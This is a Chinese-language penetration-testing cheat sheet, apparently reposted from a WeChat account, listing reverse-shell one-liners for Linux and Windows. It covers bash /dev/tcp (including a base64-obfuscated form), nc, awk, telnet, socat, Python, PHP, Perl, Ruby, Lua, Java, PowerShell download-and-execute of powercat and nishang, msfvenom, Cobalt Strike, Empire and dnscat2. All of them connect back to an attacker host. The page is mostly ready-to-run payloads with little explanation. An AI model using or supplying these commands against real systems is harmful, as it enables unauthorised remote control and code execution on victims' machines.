 ```yaml
---
title: 反弹shell
---
```


反弹shell的各种姿势。

# bash反弹shell

参考链接：
[Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)

# java反弹shell

参考链接：
[使用Java反弹shell](https://blog.spoock.com/2018/11/07/java-reverse-shell/)

# 反弹shell的各种姿势
  

> **来自公众号：Bypass**

在渗透过程中，往往因为端口限制而无法直连目标机器，此时需要通过反弹shell来获取一个交互式shell，以便继续深入。  

反弹shell是打开内网通道的第一步，也是权限提升过程中至关重要的一步。本文所有姿势整理自网络，并基于同一个假设的前提下完成测试和验证。（假设：攻击者主机为：192.168.99.242，本地监听1234端口，如有特殊情况以下会备注说明。）

* * *

**Linux 反弹shell**  

**姿势一：bash反弹**

    
    bash -i >& /dev/tcp/192.168.99.242/1234 0>&1

    base64版：bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjI0Mi8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}'
    在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html

其他版本：
        
    exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5;done
    exec /bin/sh 0</dev/tcp/192.168.99.242/1234 1>&0 2>&0

**姿势二：nc反弹**

    nc -e /bin/bash 192.168.99.242 1234

**姿势三：awk反弹**

    awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

**姿势四：telnet反弹**

备注：需要在攻击主机上分别监听1234和4321端口，执行反弹shell命令后，在1234终端输入命令，4321查看命令执行后的结果。

    telnet 192.168.99.242 1234 | /bin/bash | telnet 192.168.99.242 4321

**姿势五：socat反弹**

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.99.242:1234

**姿势六：Python反弹**

    python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.99.242',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

**姿势七：PHP反弹**

    php -r '$sock=fsockopen("192.168.99.242",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

**姿势八：Perl反弹**

    perl -e 'use Socket;$i="192.168.99.242";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

**姿势九：Ruby反弹**

    ruby -rsocket -e'f=TCPSocket.open("192.168.99.242",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

**姿势十：Lua反弹**

    lua -e "require('socket');require('os');t=socket.tcp();t:connect('192.168.99.242','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"

**姿势十一：JAVA反弹**

    
    public class Revs {
        /**
        * @param args
        * @throws Exception 
        */
    public static void main(String[] args) throws Exception {
            // TODO Auto-generated method stub
            Runtime r = Runtime.getRuntime();
            String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process p = r.exec(cmd);
            p.waitFor();
        }
    }

保存为Revs.java文件，编译执行，成功反弹shell。

    javac Revs.java 
    java Revs

* * *

  

**Windows反弹shell**  

**姿势一：nc反弹**

    netcat 下载：https://eternallybored.org/misc/netcat/
    服务端反弹：nc 192.168.99.242 1234 -e c:\windows\system32\cmd.exe

**姿势二：powershell反弹**

powercat是netcat的powershell版本，功能免杀性都要比netcat好用的多。

    PS C:\WWW>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.99.242 -p 1234 -e cmd

下载到目标机器本地执行：

    PS C:\WWW> Import-Module ./powercat.ps1
    PS C:\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd

**姿势三：MSF反弹shell**

使用msfvenom生成相关Payload

    msfvenom -l payloads | grep 'cmd/windows/reverse'
    msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.99.242 LPORT=1234


**姿势四：Cobalt strike反弹shell**

    1、配置监听器：点击Cobalt Strike——>Listeners——>在下方Tab菜单Listeners，点击add。
    2、生成payload：点击Attacks——>Packages——>Windows Executable，保存文件位置。
    3、目标机执行powershell payload

**姿势五：Empire反弹shell**

    usestager windows/launcher_vbs
    info
    set Listener test
    execute

**姿势六：nishang反弹shell**

Reverse TCP shell：

    powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com /samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.1.1.210 -port 1234

Reverse UDP shell：

    powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');
    Invoke-PowerShellUdp -Reverse -IPAddress 10.1.1.210 -port 1234


**姿势七：Dnscat反弹shell**

github项目地址：

    https://github.com/iagox86/dnscat2

`服务端：  
`

    ruby dnscat2.rb --dns "domain=lltest.com,host=xx.xx.xx.xx" --no-cache -e open -e open 

`目标主机：  
`

    powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer xx.xx.xx.xx

  

* * *

**推荐↓↓↓**

参考链接：
[反弹shell的各种姿势--来自公众号：Bypass](https://mp.weixin.qq.com/s/uHSDdwYNh_Of1lRSRXy6Vw?st=15992400DCFFF8BBB7FFCF009F5C796BD64AB41828A42DD46C545FF1C80FEA673FE1DC35B3C18541094BFACCDDBBF7AB435D4A9FCC64EA10144B3E49A3B10F1A5478CAE67CD92D6B4A5005B80378141107FB52ED9226D4EB1BEA330F1D3468F059978CE1B7A378A636B33D9DBDCFD35816424569BE8703C6CF8C668A77593027214332E8032CE9D23768645D1725F7DF&vid=1688853548483784&cst=B57A31FA0CF3C96337830CF18B35C6853123683F479732A9591AC548E35BA55CD8D769A0A5F4DCEA9C0F5AF2824CB294&deviceid=c0d114ff-72af-4384-bca6-45156f6c7a70&version=3.0.31.2998&platform=win)